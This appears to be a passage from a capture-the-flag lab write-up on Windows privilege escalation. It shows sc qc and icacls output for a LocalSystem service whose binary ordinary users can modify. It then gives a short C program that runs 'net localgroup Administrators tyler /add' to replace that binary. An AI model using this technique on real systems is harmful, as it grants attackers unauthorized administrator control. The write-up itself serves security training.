 ```

        LOAD_ORDER_GROUP   :

        TAG                : 0

        DISPLAY_NAME       : Spoofer Scheduler

        DEPENDENCIES       : tcpip

        SERVICE_START_NAME : LocalSystem

```

LAB CONTINUATION:

![Screenshot 2024-05-03 163152.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/9b7390d5-4d19-4471-b29f-84cab3b1e0f9/37463022-bab7-4506-a591-cd54d17cd331/Screenshot_2024-05-03_163152.png)

*N.B:* 

. The **qc** command displays the following information about
 a service: SERVICE_NAME (service's registry subkey name), TYPE, 
ERROR_CONTROL, BINARY_PATH_NAME, LOAD_ORDER_GROUP, TAG, DISPLAY_NAME, 
DEPENDENCIES, and SERVICE_START_NAME.

. Administrators can use **Sc** commands to determine the 
binary name of any service and find out whether it shares a process with
other services. They do this by typing the following at the command 
prompt (where *ServiceName* is an actual service name):

 sc qc ServiceName


Unfortunately, we can’t create C:\Program.exe or C:\Program Files.exe to abuse the unquoted path. But instead, we have full privileges over the service binary.



tyler@HACKSMARTERSEC C:\Users\tyler>icacls "C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe"
C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe BUILTIN\Users:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

#Icacls is a Windows command-line utility that IT admins can use to change access control lists on files and folders. One of the most common tasks that an IT Pro or system administrator performs is modifying permission on a file server.


create an executable that will add the `tyler` user to the `Administrators` local group.

Writing a very simple C code does this:
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}
